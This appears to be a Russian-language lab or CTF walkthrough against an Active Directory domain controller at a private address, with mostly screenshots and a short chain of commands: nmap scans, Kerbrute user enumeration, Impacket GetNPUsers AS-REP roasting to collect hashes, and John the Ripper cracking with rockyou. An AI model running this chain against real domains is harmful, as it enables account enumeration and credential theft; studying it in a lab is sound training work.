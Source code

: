 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8093b52d-b8e6-4c3a-9182-7711d460f511)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6377e73c-ce8a-4a78-bcd3-09c73e44d1c7)

john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash-kovaleva.txt 

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e0a49758-64c9-4bed-a116-134d7b04ea4a)

